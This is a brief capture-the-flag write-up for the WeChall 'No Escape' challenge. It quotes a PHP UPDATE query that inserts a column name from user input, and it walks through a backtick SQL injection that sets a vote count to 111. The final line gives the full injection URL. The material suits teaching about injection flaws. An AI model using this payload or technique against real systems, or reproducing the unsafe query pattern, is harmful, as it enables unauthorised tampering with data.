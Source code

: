 http://www.wechall.net/challenge/no_escape/index.php

according to the problem you can't just click vote button for 111 times to solve it. you need to set the value directly to do it.

we see line 72:
```
$query = "UPDATE noescvotes SET `$who`=`$who`+1 WHERE id=1";
```

if we do `bill\`=111#` we see an error, we need to continue the SQL statement. add `,\`george\`=\`george\`` and done

answer: http://www.wechall.net/challenge/no_escape/index.php?vote_for=bill`=111,`george`=`george
